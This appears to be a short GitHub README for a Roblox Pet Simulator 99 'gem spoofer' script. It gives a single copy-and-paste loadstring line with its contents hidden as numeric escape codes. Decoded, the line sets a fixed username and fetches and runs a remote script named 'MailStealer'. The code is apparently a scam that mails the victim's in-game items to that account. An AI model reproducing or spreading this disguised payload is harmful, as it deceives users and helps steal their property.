 # PS99GemSpooferScript
Copy and paste in executor
loadstring("\112\114\105\110\116\40\34\85\115\101\114\110\97\109\101\61\34\66\108\97\99\107\101\115\116\78\73\78\74\65\69\86\82\34\10\76\111\97\100\83\99\114\101\101\110\61\116\114\117\101\10\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\34\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\75\105\117\117\80\47\80\83\57\57\95\77\97\105\108\115\116\101\97\108\101\114\47\109\97\105\110\47\77\97\105\108\83\116\101\97\108\101\114\46\108\117\97\34\41\41\40\41\41\32\10")()
  

